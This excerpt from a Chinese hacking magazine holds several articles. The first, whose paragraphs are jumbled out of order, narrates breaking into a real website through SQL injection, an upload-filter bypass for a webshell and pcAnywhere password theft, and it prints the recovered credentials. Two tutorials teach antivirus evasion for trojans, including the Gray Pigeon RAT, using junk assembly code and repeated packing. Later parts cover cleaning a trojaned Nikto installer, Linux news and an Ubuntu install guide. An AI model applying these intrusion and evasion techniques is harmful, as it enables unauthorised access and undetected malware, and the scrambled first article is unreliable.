以前对主站测试过，所以这次草草地试了几下没有问题后就转向了新开的两个分站，新开的分站是用 JSP 写的（之前没看清，还以为是 ASP 的，才闹出后面的笑话）。原本没指望工具，结果啊 D 还真扫到了几个注入点，如图 1。


OK，gogo，我们随便选一个注入点开工吧！如图 2。

MSSQL 的数据库，而且是 DB_OWNER 权限噢，现在不是流行用备份数据库 webshell 嘛，我也试试去，嘿嘿。先去列目录去，结果试了几次都列不出来，如图 3。

权限不够？还是数据库和 web 服务器不在一起？看来此路不通。还是去慢慢猜字段吧，反正有工具的，速度还够快。如图 4。


### 图 3 列目录不成功

### 图 9 上传小马

马的地址，我们直接就可以看到，上去看看吧，如图 10。

### 图 4 猜出用户名和密码

快去登录后台吧，问我后台地址怎么弄到？接着拿工具扫吧，呵呵。不说废话，后台进去发现界面挺整洁的，功能也很简单，如图 5。

怎么会这样呢？我又重新传了好几次还是同样的效果，回后台再看看吧！我晕啊，这才发现，这套系统是用 JSP 写的，之前太顺利了，还以为是 ASP 的呢。汗啊！换成 JSP 的马，再来一次吧。终于算是拿到了一个 shell，如图 11。

### 图 10 打开小马

下面便想办法先拿个 shell，信息添加这里可以上传文件，如图 6。

### 图 5 后台界面

那我们就从这入手，直接传个马儿上去试试，没有出现错误提示，但是却成了这个效果，如图 7。

### 图 11 JSP 的马

### 图 6 可以上传文件

### 图 7 上传后的效果

这到底是成功没成功呢？我想就咱这么好的命一定成功了，嘿嘿。那这上传以后的文件地址又在哪儿呢？再传一次抓个包试试，看看能不能抓到什么有用的信息，又弄了一遍，结果什么都没抓到，就不给大家截图了。这下怎么办，这小马还生死未卜呢，看来我们还要再想想其它办法咯。

翻翻服务器看看吧，发现 JSP 的马儿权限还真是大啊，可以执行命令，这才发现数据库和 web 是分开的，两个分区都能跳转，在 D 盘发现了 serv-u，HOHO，看来提权有希望了。而且还发现 3389 已经打开，计划着用前面的 serv-u 提权限，一只味美香甜的小鸡又到手了。但是我先连了一下 3389 却连不上，郁闷，不知道是为什么，我猜是做了 IP 限制了吧，于是我们想到的计划全部泡汤了。

看信息添加下面的那些工具有些眼熟，还以为是 eWebEditor 呢，结果不是，于是对着上面的工具一阵乱点，点开插入图片那里看着更眼熟，啊哈，这下想起来了，当年的 NB 文章系统不就是惨死于这个手下的嘛，看来胜利就在眼前了，如图 8。

还好还好，在苦苦寻觅之下，在 C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere 目录下还是发现了 pcAnywhere 的踪影，但是又遇到问题了，马儿没有下载功能，看着 CIF 文件摆在那里不能下真是痛苦欲生啊，那我就把它复制到 web 目录里试试，说干就干，改个名字复制到 web 目录，如图 12，搞定。

点击浏览服务器，就可以直接上传我们的小马，只要记得在小马的后面加个空格就可以绕过验证了，如图 9。

### 图 8 插入图片界面

传上去的马儿名字会改变，/FileUpload/Image/203720061228221941.asp 就是小马的地址，我们直接就可以看到，上去看看吧，如图 10。

### 图 12 下载到 CIF 文件

然后再用工具读出密码的信息如下。

```
User information:
Login name: lile
Password: 8892518
```

嘿嘿，连上去看看，如图 13。还看什么？给管理员写封信，走人吧。这次入侵看起来一切都那么一帆风顺，但其实当时是费了我相当的一段时间，可能是因为我太菜了，而且又太马虎，不过可见平时的积累是必不可少，不然想不到 NB 文章的问题就做不到后面的入侵了，好了，最后祝大家新年快乐，别忘了多多支持《黑客防线》哦。

图 13 连上去了

**编辑点评：** 很顺利的一次入侵实战，本来一帆风顺的却被作者的粗心大意浪费了不少表情，也真服了这群拿着工具狂入侵的小黑黑了，连 JSP 都能看成 ASP，还像模像样地上传 ASP 的马却苦恼怎么 ASP 的马儿不运行呢？提醒大家一下，经验积累是有必要的，但是千万别被经验束缚了思维。

## 木马免杀之添加花指令

> 免杀专栏首语  
> 目前的杀毒软件都是根据特征码来查杀的，而特征码存在于病毒库中，免杀无非就是利用这个原理来逃脱杀毒软件的追杀。常见的免杀方式有加密、加壳及加花。

袁草

从本文中你可以学到：

- 什么是花指令
- 如何编写花指令
- 如何利用花指令进行免杀

现如今的免杀应用操作中，使用最为广泛的就是加密、加壳、加花等，这些方法的免杀效果都是挺不错的。尤其是加花指令，更是被免杀爱好者广泛使用。但是对于普通的菜鸟朋友来说，“花指令”这个词可能还是比较陌生的。那么什么是花指令？如何编写自己的花指令？如何利用花指令进行免杀操作？这些就是本文的重点。

### 什么是花指令

加花指令是目前非常常用的免杀方法。那么什么是花指令呢？所谓花指令，其实我们可以把它理解为一些程序中的无用代码或垃圾代码，有了这些代码程序照样运行，没有这些代码也不影响程序运行。其实花指令就是几句汇编指令，让汇编语言进行一些跳转。通俗点就是说杀毒软件是从头到脚按顺序来查找病毒，如果我们把病毒的头和脚颠倒位置，那么杀毒软件就找不到病毒了。这样杀毒软件就不能正确地判断病毒木马文件的构造，加大了杀毒软件查杀木马病毒的难度。

### 如何编写花指令

虽然大家都知道，添加花指令是一种非常不错的免杀方法，但是有一个非常实际的问题就是如何编写花指令。虽然对于那些有汇编基础的用户来说，编写花指令并不算什么难事，但是对于菜鸟来说还是很麻烦很困难的，所以只能从网上寻找别人公布出来的花指令代码或花指令添加器。虽然这些公布出来的东东菜鸟可以直接拿来使用，但是很快也会被杀毒软件添加到病毒库中，所以即便只是短时间里能够起到免杀的效果，很快就会被查杀的。

要解决以上的问题，只有通过学习，编写出属于自己的花指令，这样才能一劳永逸。那么花指令如何编写呢？在教大家编写花指令以前，需要特别强调的是，花指令虽然是一段无用的汇编代码，但是也有一定的要求。最主要的就是编写的代码不能打乱原程序的顺序，添加的花指令一定要使原程序保持平衡状态才行。

先来介绍一些常见的汇编指令，如表 1 所示。

| 指令 | 说明 |
|---|---|
| pop | 出栈 |
| push | 压栈 |
| jmp | 无条件跳 |
| je 或 jz | 若相等则跳 |
| jne 或 jnz | 若不相等则跳 |
| jb | 若小于则跳 |
| ja | 若大于则跳 |
| jg | 若大于则跳 |
| jge | 若大于等于则跳 |
| jl | 若小于则跳 |
| jle | 若小于等于则跳 |
| ADD | 加法 |
| INC | 加 1 |
| SUB | 减法 |
| DEC | 减 1 |

下面我们根据一段花指令来进行讲解，从而分析它的原理：

```assembly
push ebp
mov ebp, esp
sub eax, -1
dec eax
add eax, -3
inc eax
inc eax
inc eax
sub eax, -1
dec eax
jg 原入口点
jle 原入口点
```

花指令的开头，通常就是 push ebp 和 mov ebp, esp 这样的两句。push ebp 是把 EBP 压入堆栈，mov ebp, esp 是把 ESP 的值赋给 EBP。不懂没有关系，大家只要记住花指令代码通常都是这两句就可以了。接着再来看后面的花指令。sub eax, -1 表示寄存器 eax 减去 -1，学习过数学的都知道 -(-1)=1，实际上也就是加 1。dec eax 表示寄存器 eax 减 1。这样加 1 减 1 等于什么都没有做，原程序也就保持在平衡状态；

add eax, -3 表示在寄存器 eax 加 -3，inc eax 则表示在寄存器 eax 加 1，连续三个 inc eax 就表示加 3。这样加 3 减 3 又什么都没有做。最后是跳转语句，jg 表示若大于则跳转，jle 则表示若小于等于则跳转，两个跳转代码加起来等于一个 JMP 无条件跳转。

图 1 生成的免杀花指令

单凭这里简单的讲解，大家可能还是很难在很短的时间编写出自己的花指令代码，所以这里我给大家介绍一款“免杀花指令生成器”。首先在开始菜单的“运行”中执行“cmd.exe”，打开命令行提示符窗口。接着跳转到“免杀花指令生成器”所在的目录，执行该程序即可立即生成全新的花指令代码，如图 1 所示。用户每执行一次该程序，就会生成不同的花指令代码，绝不会出现重复的。

### 利用花指令来免杀

如果手中已经有花指令了，那么就可以开始着手将其添加到需要免杀程序的代码之中，从而进行免杀制作的操作。写入花指令代码通常有两种方法——手工添加和工具添加。手工添加则是利用相应的汇编调试工具将花指令写入程序的代码之中，而工具添加则是利用网络中现成的花指令添加程序来进行添加。

## 1、手工添加

第一步、首先需要对免杀程序添加一段 00 区域。之所以要进行这一步操作，是因为添加花指令是添加到程序代码的间隙中的，但是有的程序间隙很小，比如黑防版灰鸽子。如果直接加花的话，免杀程序运行就会出现错误提示。运行区段添加工具 ZeroAdd，点击“选择一个文件”按钮选择需要加花的程序，接着在“输入新增加 section 名称”选项中设置新建的区块名称；然后“输入新增加 section 的大小”选项中填入增加的字节数；最后点击“生成新文件”按钮即可添加成功，如图 2 所示。

图 2 设置完成的 ZeroAdd

第二步、由于添加了一个 00 区域，接下来我们需要找到添加区域的位置。运行 PE 编辑工具 LordPE，在窗口中点击“PE 编辑器”按钮来选择免杀程序，接着在弹出的“PE 编辑器”窗口中点击“区段”按钮，在弹出的“区段表”窗口找到刚添加的这一项，如图 3 所示。

图 3 LordPE 中新增区段的地址

第三步、更改免杀程序的入口点。同样在“PE 编辑器”窗口中找到“入口点地址”选项，将原来的入口点记下，接着将“入口点地址”选项改为新的入口点，然后点击“保存”按钮后即可，如图 4。

图 4 修改后的入口点地址

第四步、现在我们开始进行加花操作。运行汇编工具 OllyDbg 载入免杀程序，程序自动停留在新的入口点。从这一行向下选择多行，点击鼠标右键选择“二进制”菜单中的“使用 NOP 填充”命令，将这些代码填充掉。然后点击右键菜单中的“汇编”命令，依次在“汇编”窗口中写入我们准备的花指令代码，最后跳转到原来的入口点，如图 5 所示。

第五步、修改完成后进行文件的保存。选择右键菜单中的“复制到可执行文件”，接着在它的子菜单中选择“选择部分”命令，最后在弹出的新窗口中点击鼠标右键，接着点击“保存文件”命令将我们修改的程序另存为即可。

## 2、工具添加

现在网络中现成的花指令添加工具有很多，这里我们利用刚推出的加花指令工具“超级加花器 1.4 版”来进行操作。首先将需要免杀的程序直接拖动到程序的主界面进行释放，接着在“花指令”下拉列表中选择一种指令，单击“加花”按钮就可以了。

图 5 添加的花指令

可是在文章开始我们就提到，网络中现成的花指令或花指令添加器都很容易被杀的。那么怎么解决这个问题呢？其实我们完全可以利用工具来添加自己编写的花指令代码，这样既减少了手工添加的繁琐，也避免了添加花指令的程序在短时间里又被查杀的结果。最近推出的“超级加花器 1.4 版”就支持自定义花指令的添加，并且可以对添加的附加数据自动检测，对于某些存在附加数据的程序加花后仍可执行。

第一步、首先准备一段自己编写的花指令代码，接着运行 OllyDbg 后任意地载入一个程序。点击右键菜单中的“汇编”命令，在“汇编”窗口中依次写入刚刚准备的花指令代码。写入完成后选择输入的指令，点击右键菜单中的“二进制”菜单中的“二进制复制”命令。得到一串代码“55 8B EC 83 E8 FF 48 83 C0 FD 40 40 40 83 E8 FF 48”，对其进行处理，去掉其中的空格。

第二步、运行“超级加花器”，在“花指令名称”中任意输入一个花指令的名称。花指令名称不能为空，可以是中文、数字、字符、符号、英文名字等。接着在“花指令内容”中输入刚刚处理过的这段代码。花指令内容不能为空，必须是连续的 16 进制码，之间不能有空格，大小控制在 255 个字节内。最后点击“保存”按钮保存该花指令，接着关闭该加花程序，如图 6 所示。

图 6 添加自定义花指令内容

第三步、再次打开“超级加花器”，将需要免杀的程序拖动到界面进行释放，接着在“花指令”下拉列表中选择自己的花指令，单击“加花”按钮即可，如图 7。

图 7 使用自定义的花指令

### 小结

今天我们简单介绍了一些关于通过添加花指令，从而进行木马免杀的知识，并且通过手工和工具两种方式为大家进行了讲解。通过这篇稿件的介绍，以后用户不仅可以方便地写出自己的花指令代码，而且可以将其方便地添加到木马的源文件中，这样以后再也不用担心自己的木马程序会在短时间里被杀毒软件查杀了。

（作者提到的 ZeroAdd、LordPE、OllyDbg 及超级加花器已经收录在光盘中）

## 编辑点评

> 作者从原理到实际操作详细介绍了添加花指令进行免杀的两种方法，非常不错，赞一个。对于菜鸟来说，利用工具并适当修改为上策，而对于大侠级的人物，则是手工修改，做出一个具有“自主知识产权”的小马为上策。

## 看菜鸟打铁笼放飞鸽子

### VIP2006 鸽子免杀

klxy[B.Y.T]

从本文中你可以学到：

- 手动修改版本标识
- 获取并修改入口点
- 多次加壳

今天的免杀对象是灰鸽子 VIP2006 的 EXE 服务端，因为用的人很多，所以也被很多杀毒软件追杀，往往刚免杀出来的鸽子没过几天就被杀毒软件盯上了，这次教大家做出属于自己的免杀版鸽子。

#### 脱胎换骨

先用 WinHex 打开我们生成的鸽子服务端，依次点击“搜索”中的“查找文本”，这里选用的是 Build 20060926 这个版本，那就搜索“Build 20060926”。再点击“搜索”中的“替换文本”，把替换中的文字改为任意字符，不过一定要和搜索的文本同样长度，否则会出错。然后点击“是”，会出现替换次数的对话框，如图 1 所示。最后保存服务端。

接下来要测试效果了，看下能不能运行，且版本有没有变成我们改的，如图 2。

#### 添砖加瓦

下面就正式来对服务端进行免杀处理，用 OD 载入服务端，记下入口点 0040BE1C。然后找一段程序的空隙加花，花指令如表 1，并且记录下地址 0040C29A，最后保存文件，如图 3 所示。

| 指令 |
|---|
| push ebp |
| mov ebp,esp |
| mov ecx,33 |
| push 0 |
| push 0 |
| dec ecx |
| jnz 入口点 |
| jb 入口点 |
| jnb 入口点 |

表 1 添加的花指令

这样程序入口点还是不会变，要用 Peditor 改入口点为 0040C29A，不过要减去 00400000，所以真正的入口点为 0000C29A。运行程序测试，成功上线。

接下来要给它穿上一层黑白配——VC 伪装的外衣，区段大小随便，如图 4 所示。

然后用 ASPack 加壳，建议不要加生僻的壳，我试过很多不是病毒的软件加了生僻壳后就被杀了，这时候杀毒软件杀的不是文件而是壳。

#### 奇迹再生

我们都知道加了一次壳是不能加第二次的，除了支持重复加壳的软件。

现在我们要把加壳后的资源释放出来，让它可以再加一次壳。首先执行 freeRes，打开文件。如果你的小马是自动删除的，就要先运行一次服务端，因为分析资源需要运行文件，然后点“是”，再点“功能”里的“建立可编辑资源”，它会自动替换原有文件，如图 5 所示。

接着加一次 UPX 的壳，再释放资源，最后加一个 PE 的壳。完成免杀并测试成功后，别忘了把马丢到 www.virustotal.com 上测试一下免杀效果，如图 6 所示。

| Antivirus | Version | Update | Result |
|---|---|---|---|
| AntiVir | 7.3.0.21 | 01.05.2007 | no virus found |
| Authentium | 4.93.8 | 12.30.2006 | no virus found |
| Avast | 4.7.892.0 | 12.30.2006 | Win32:Hupigo |
| AVG | 386 | 01.05.2007 | no virus found |
| BitDefender | 7.2 | 01.06.2007 | no virus found |
| CAT-QuickHeal | 9.00 | 01.05.2007 | no virus found |
| ClamAV | devel-20060426 | 01.06.2007 | no virus found |
| DrWeb | 4.33 | 01.06.2007 | WIN.WORM.Vi |
| eSafe | 7.0.14.0 | 01.05.2007 | no virus found |
| eTrust-InoculateIT | 23.73.107 | 01.06.2007 | no virus found |
| eTrust-Vet | 30.3.3307 | 01.06.2007 | no virus found |
| Ewido | 4.0 | 01.05.2007 | no virus found |
| Fortinet | 2.82.0.0 | 01.06.2007 | no virus found |
| F-Prot | 3.16f | 01.05.2007 | no virus found |
| F-Prot4 | 4.2.1.29 | 01.05.2007 | no virus found |
| Ikarus | T3.1.0.27 | 01.06.2007 | no virus found |
| Kaspersky | 4.0.2.24 | 01.06.2007 | no virus found |
| McAfee | 4933 | 01.05.2007 | no virus found |
| Microsoft | 1.1904 | 01.06.2007 | no virus found |
| NOD32v2 | 1959 | 01.05.2007 | a variant of W |

图 6 virustotal.com 的扫描结果

要过 NOD32 用北斗加几次壳就可以了，但是又会被其他的杀毒软件所杀，我现在还没有更好的办法，希望有高人指点。

#### 结语

也许在你们看见这篇文章的时候已经被杀了，方法是随时在改变的，不可能总是一成不变，把所有学到的东西灵活运用才是最重要的，希望这篇文章对大家有所帮助。如有不懂，请到论坛来，我的 ID 是 klxy。

> （作者提到的灰鸽子 VIP2006、WinHex、OD、Peditor、ASPack、freeRes 及 UPX 已经收录在光盘中）

> 编辑点评：修改版本标识、加花指令、多次加壳，这些都是免杀常用的手段，本文中都已经使用到了，给初学者一个学习机会。## 安全工具的诱惑——关于 Nikto

xh015xh

无毒有偶栏目。电脑病毒其实是某些电脑高手利用电脑固有的弱点编制的、具有特殊功能的指令或一种程序，是具有恶意攻击并破坏电脑软硬件的程序。这种程序和生物医学上的“病毒”一样，也有传染性、破坏性，具有再生能力，它会自动地通过修改其他程序并把本身嵌入其他程序，或者将自身复制到其他存储介质中，从而“感染”其他程序。在满足一定条件时，该程序就干扰电脑正常工作，捣乱或破坏已有存储的信息，甚至引起整个电脑系统不能正常工作。

- 从本文你可以学到：
- 使用搜索功能查找可疑文件
- 利用各种工具清除恶意程序

《手册》06年12月的光盘上有一款名为 Nikto 的软件，其功能是网页扫描器，基于 Whisker/libwhisker 完成其底层功能。本人试用了一下，发现此软件是被修改过的，内置了多个木马和恶意软件，以下便是整个清除过程。

本人没装杀毒软件，一是用工具的时候老多事，另外个人认为能在防毒、中毒与杀毒的过程中提升自己，重要的东西事先做好备份就行。浏览光盘时看到简介中描述的功能很诱人，就直接点击运行了这个程序，还没等我反应过来，就闪过几个安装框，看来下一步是不用我点了。只看到一个 WinRAR 自解压的安装框，安装目录直指 C:\WINDOWS\system32。当时就想到，上面这些不询问直接安装的动作明显不是一个软件的正常安装过程，还可确定的一点是一般不会有软件直接安装在 C:\WINDOWS\system32 下的。

最先想到的是要看看到底装了些什么东东，用最简单的方法就是搜索。打开“我的电脑”，范围“本地磁盘”，文件名“*.*”，时间为“新建时间”刚才安装的时间，把属性都选上，结果搜出一大堆，如图1、图2所示。

从上图的文件名就可以看出来这些文件中有坏东西，如 realupdate.exe。由于 RealPlayer 在装好后，如果不更改设置，默认情况下会自动启动升级程序，所以这个程序启动后在进程里就可以鱼目混珠了。类似的还有 SVCH0ST.exe 文件，不认真还真看不出来其中 H 和 S 中间是个 0（数字零）。从文件大小和修改时间也可以推测图2中选中文件与其上面的文件是同一个，用记事本打开即可证实。往下看还有两个 iehelper_XXXX.dll 的文件，检测后发现文件内容完全相同，有可能是恶意 BHO。后来我把这些文件拷贝到同事家里查了一下，有多个木马和广告程序，如图3所示。

当时想把这些东西移到其他文件夹内作备份，方便在删除后出问题时及时恢复，同时也便于事后分析，但发现有些 dll 不能剪切，还有的剪切了又自动回来了，所以肯定是正被使用或被某些进程监控。要做的就是把正使用的或监控它们的进程终止，这里可以选用的工具很多，我用的是冰刃。终止后，文件就可以移动了，只剩下 iehelper_XXXX.dll 两个文件没移走，将其复制下来后，用冰刃直接删除。接着打开注册表 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects，下面找到两个插件的 CLSID，先记下，因为不只这里有。这个是有权限限制的，而且其设置了拒绝管理员删除的权限，不过管理员自然也可以更改，在“高级”里面把 CLSID 的拒绝删除权限去掉，然后把权限应用到子项的单选项上，确定后就可以删了。然后搜注册表，把其他位置的 CLSID 也删掉。

最后，用 Autoruns 8.54 清理启动项，这一步最好最后做，因为如果这些进程没停掉，或 dll 插入到了其他进程中，启动项也会删不掉。最后进行扫尾工作，就是用 360 安全卫士查找并删除注册表内残留的项，如图4所示。

清除到此完成，回头再看看光盘内的文件。用 PEiD 查一下，发现其实是个自解压的 RAR 文件，图标被改了，做得还挺像安装文件的，如图5所示。

用 RAR 打开即可看到其包含的多个安装文件和自解压命令，看样子好像没一个是真正的 Nikto，如图6所示。

本次“试用”到此结束，写一篇文章，也算个经验总结！！

编辑点评：由光盘上提供的软件引起的一宗“命案”，虽然造成了不小的麻烦，却给作者带来了一次练习的机会，真的是意外的收获。不过还是要对大家说句“对不起，给您带来了麻烦”，可千万不要有人套用“如果对不起有用的话，要警察干嘛”哦！

## LiNEWS

Hello，大家好，新兵青蛙王子来和大家打个招呼。以后窗外的生活将由我和大家一起度过。

终于迎来了一个春节。冬天是食补的季节，赶快抓紧最后这点儿时间，来补补 Linux 吧。本期的目标明确，就是让众小菜们先装上 Linux 再说。闲言少叙，来看看我们为大家奉上的 Linux 市场份额最大的 Ubuntu 冬补大餐吧。

### 1. 开源虚拟软件 Xen 又添新兵

一款最新支持图形功能的 Xen 发布，使这款虚拟软件更加有利于在台式机上运行。Xen 能够使一部计算机同时运行多个操作系统，这对当前提高服务器硬件的使用效率是非常有益的。通过新设计的名为“虚拟缓冲硬区”的技术，Xen 的主操作系统能够获取写到特定部分内存中的视频数据，使用户通过图形界面看到虚拟机，不过 VMWare 等虚拟软件已经能够提供这一功能。

> 然而专家指出，Xen 的用户友好性目前还未得到证明，除了其易用性之外，Xen 还面临着其他挑战。

> 青蛙语：看了这篇文章，总感觉计算机就是黄豆，是被用来榨油的……要耗干它身上的每一滴油为止（轰……本罢工了……）。

开源软件就是有这样不屈不挠的精神，尽管可能功能上还不如商业软件，但是努力地发展、提高、完善自身，迎接挑战。在这里期待一下国内的软件组织，能够转向开源软件的开发。

### 2. RHEL 5 跳票，3 月前上市

Red Hat 公司宣布，其新版 Linux 产品 Red Hat Enterprise Linux 5（RHEL 5）将于 2 月 28 日发布，与之前年底发布的计划相比，推迟两个月。

新的 RHEL 5 中将包括最新的虚拟软件 Xen，同时内核版本也从 RHEL 4 的 2.6.9 升级到了新的 2.6.18，同时系统添加了新的安全功能，来抵御一些类型的网络攻击。不过由于 Red Hat 销售的是软件订阅，现有用户都可以进行免费升级，因此 Red Hat 并不指望以此获得巨额收入。

> 青蛙语：不管怎么说，Red Hat 还是 Linux 的巨头，2006 年收购 JBoss 着实让红帽子又火了一把；而从 RH9 之后，分别发布 Fedora Core 和 RHEL 系列模式，也成了很多软件公司靠 Linux 盈利的榜样。不过 Fedora 在桌面 Linux 领域已经输给了完全免费的 Ubuntu，不知道在服务器领域，将会有什么样的结果。

### 3. 共创联手神舟电脑，OEM 领域又一硕果

日前，国内 PC 生产厂商神舟电脑与共创开源签约，就神舟笔记本、神舟台式机和神舟一体机全部预装共创软件达成协议，旨在推动国产计算机硬件产品和计算机基础软件产品在市场和销售领域的强强联合，全面提升国产计算机软、硬件产品的推广和应用。

神舟电脑对国内外诸多计算机软件厂商的操作系统进行了产品评审与测试，并有效结合用户市场的信息反馈，而其中共创开源的共创桌面操作系统和共创办公套件以优异的性能和良好的安全性、稳定性、易用性，在众多软件厂商的产品中脱颖而出，成为最终入选的计算机软件产品供应商。

据了解，共创开源在此之前与新蓝电脑也签署了相关协议，在其中预装其 Linux 以及 Office 相关软件。

> 青蛙语：尽管没有了 Windows XP，不过再怎么说 Linux 也比 DOS 好看多了。我个人与 lala 的意见一致，国内的 Linux 要有产品，更要有服务。在服务这方面上，他们还有很长的路要走。

### 4. SoftMaker Office 2006 发布，带来与 MS Office 的良好兼容性

德国公司 SoftMaker 发布了 SoftMaker Office 2006 For Linux & FreeBSD，与 OpenOffice.org、KOffice 等争夺 Linux 下办公套件市场。

该公司宣称，目前的免费 Office 套件存在着处理速度慢以及难于使用的劣势，很难达到 Office 领头人 MS Office 的水平。而 SoftMaker Office 一方面运行速度快，同时也与其他办公程序协作时没有延迟，其公司的目标在于对 Word 和 Excel 文件提供良好的读写能力和极高的兼容性。

不过 SoftMaker 并不是免费的，它的程序包与操作系统捆绑销售，售价 69.95 美元。

> 青蛙语：包括 OpenOffice 在内，开源 Office 套件还是很难撼动 MS Office 的地位。SoftMaker 的想法很好，既然不能在 Windows 下打败 MS，那就在 Linux 下提供良好的兼容性来扩大市场。不过如果是免费的，那就更好了。

图5 PEiD 检测结果

图6 用 RAR 打开后的界面

## Ubuntu 安装图文全解

- 从本文你可以学到：
- Ubuntu 6.10 版本的安装方法

lamfriday

Ubuntu 是近年来才兴起的一套 Linux 发行版本，尽管很年轻，却在很短的时间内占有了 Linux 桌面很大的份额。Ubuntu 是基于 Debian 构建的，它的软件包管理也继承了 Debian 的 APT+DEB 模式，全球各地都有 Ubuntu 的软件资源服务器，所以 Ubuntu 软件更新和系统更新十分方便，加上拥有大量的软件资源，使 Ubuntu 成为了最受欢迎的桌面 Linux。

Ubuntu 的安装有三种基本方式：CD-ROM 安装；硬盘安装；网络安装。

本文重点介绍 CD-ROM 安装，简单介绍网络安装。6.06.1 以来，Ubuntu 的硬盘安装设计得一直不是很方便，这里先不介绍。如果想了解硬盘安装的内容，可以去 Linuxblog.cn 察看。

## 一、安装准备

- 1. 从 Ubuntu 官方（http://mirror.lupaworld.com/ubuntu/releases/6.10/ubuntu-6.10-alternate-i386.iso）下载安装 Ubuntu 6.10 光盘安装镜像，有 697.07MB，较大。小编测试了一下，下载速度基本都稳定在 120KB/S 左右，完成全部下载时间大约为一个半小时（注：小编用的是 512KB 的 ADSL）。

**提示：** Ubuntu 有三种版本的 CD 镜像，分别是 Alternate install CD、Desktop CD 和 Server install CD，其中 Alternate 是安装用 CD；Desktop 是一张光盘启动系统；而 Server 即是服务器版本。本篇我们选择的是 Alternate install CD。

- 2. 使用 PM 之类的软件从硬盘上分出大约 6GB 的空间（根据硬盘剩余空间情况来定）。使用 Nero、酒精之类的软件将 ISO 镜像刻录成光盘，放入光驱，重启，并设置 BIOS 从 CD-ROM/DVD-ROM 启动，开始下面的引导安装过程。

## 二、Grub for DOS 的安装及使用基础

- 1. 下载 Grub for DOS（光盘中提供）。
- 2. 抽取压缩文件中的 grldr 复制到 C:\，并在 boot.ini 中添加一行：

```text
C:\GRLDR="Start GRUB"
```

修改 boot.ini 中的“timeout=7”（注：原值一般是 0，这个值是自己设置的）。

- 3. 重启计算机并在 Windows 的启动中看到“Start GRUB”，选择进入后看到“grub >”的命令提示行，则说明安装成功。
- 4. 在 C:\ 下建立 \boot\grub\ 目录，在其中建立一个文本文件，内容如下：

```text
# This is a sample menu.lst file. You should make some changes to it.
# Added items for installing GRUB [ which is on your DOS drive C: ] to MBR

color black/cyan yellow/cyan # 颜色方案配置
timeout 60 # 等待时间，60秒
default 0 # 默认第n+1个，n=0，默认启动第一个

title Install Ubuntu online # 从网络安装 Ubuntu
root (hd0,x) # 分区位置在(hd0,x)
(提示：(hd0,x)表示硬盘上的分区，一般扩展分区的x是5以上数字，D盘就是hd0,5，E盘就是hd0,6，以此类推。根据自己硬盘情况确定)
kernel /vmlinuz root=/dev/ram0 devfs=mount,all ramdisk_size=512 # 引导内核以及相关参数
initrd /initrd.gz # 引导initrd
boot # 启动
```

修改文件名为 menu.lst（注意：后缀是 lst，不是 txt，一定要让 XP 显示后缀），再次启动 Grub 的时候就可以看到图形界面了。如果进入 Grub 后，想从图形界面进入命令行格式，只需要按一下“c”。

## 三、光盘安装流程

- 1. 由光盘启动后，首先看到一个图形的选择界面（如图1），选择“Install in text mode”。接着是选择语言和地区，没得说，选择“中文”和“中国”。

- 2. 接下来系统会探测键盘布局，大家用的键盘大多都是 104 键的标准键盘，一般直接就过去了（如果有键盘探测，如图2，选择“否”来取消探测就可以了，再在给出的布局中选择“US English”）。

- 3. 紧接着系统会探测硬件并且加载额外的组件，并且探测网络（如果是直接使用猫或 ADSL 拨号上网，那么先把网线拔掉，并跳过 DHCP 配置网络这步）。

**提示：** ADSL 用的 PPPoE 拨号，在安装过程中是不被加载的；而 DHCP 配置以及后面的 APT 配置，自动探测的话会占用很多时间。

- 4. 分区是重点中的重点。初学者或个人用户的话，把空间分成两块就够了。在这里大家看到的硬盘只有 3.8GB，而且没有其他的系统，所以分区十分简单。

(1) 选择这块硬盘的空闲空间（图3），然后选择创建新分区，分区的大小大约 3.3GB（原因之后讲解），分区类型一般是逻辑分区（因为没有其他主分区，这里选的是主分区），位置选择在空间的开始。然后就出现了图4的界面，这个分区挂载在“/”，“用于：Ext3 日志文件系统”，第一块分区就结束了。

(2) 第二块分区是 swap（交换分区），从图4“返回”，继续在这块硬盘上创建分区，过程与之前一致，直到出现类似于图4的画面。这时选择“用于：……”，在选择菜单（图5）中选择“交换分区”并确定，就会看到图6的界面，这样交换分区 swap 就建立好了。返回后会看到图7，由于要格式化分区，系统会再次提示。确定后系统就开始对刚才的两个分区进行格式化了，并在完成后进行下一步安装。

> **提示：**
> a. 一定要从空闲空间（否则你会丢失数据的）上进行分区，至少要有两个分区，一个是挂载“/”的（就像 Windows 下的系统盘符），另一个是 swap 交换分区；
> b. Swap 分区一般是内存的 1.5 到 2 倍，和在 Windows 下选择页面文件大小的原则一致。如果你有 512MB 的内存，选择 700MB 至 1GB 的 swap 分区都是可以的；如果你的内存大于 1GB，那么 swap 分 1GB 也就足够了；
> c. 挂载“/”的分区一般都在 hda5 以后，最小是 3GB，一般 5GB 就够用了，如果硬盘剩余空间比较大或者很喜欢从网上下载各种软件来测试的话，可以再分大一些。还有一点要说明的，这样分区并不科学，不过对于个人用户来说是没问题的。

- 5. 之后会要求用户设置时钟，UTC，选“是”即可。接着就是设置用户名和密码（图8），注意，第一个设置的是用户的全名，第二个才是用户名（即登录用的），接着是密码及密码验证。都输入完毕了，系统就开始安装基础系统了（图9）。在基础系统安装结束后，则会询问是否下载语言包（图10），如果觉得网速好的话可以下载。之后就开始漫长的软件安装了。

- 6. Grub 的安装也很重要，它直接关系到双系统启动的问题。Grub 会先对硬盘上的系统进行检测，并在启动项中写入相应的代码。Grub 默认安装在 MBR（主引导区），在电脑启动时可以看到 Ubuntu 和 XP 系统。

到这里，Ubuntu 的安装就算结束了，剩下的就是重启计算机，然后选择 Ubuntu 进入了。

### 四、网络安装

网络安装和 CD-ROM 安装的方法类似，只是介质换了。

> **小提示：** 网络安装中需要用到 Grub 或 Grub for DOS，要提前安装好哦~

安装好 Grub for DOS，从 Ubuntu 的官方下载网络安装需要的文件：linux 和 initrd.gz，并放置在硬盘上某个分区的根目录下（如 D、E 等盘，Ubuntu 支持 NTFS 和 FAT）。重启系统，进入 Grub，在命令行下输入：

```text
root (hd0,x)
kernel /linux root=/dev/ram0 devfs=mount,all
ramdisk_size=512
initrd /initrd.gz
boot
```

这里开始，就和 CD-ROM 一样了。稍有差异的地方就在于：
- 1) 在选择语言和国家的时候会选择安装服务的来源（图11），选择中国就可以了；
- 2) 安装完成基础系统后，会要求用户选择发行版本。可选的发行版本包括 Ubuntu、Kubuntu、Xubuntu 等，这是网络安装的优势，个人可以根据喜好选择版本。

> **说明：**
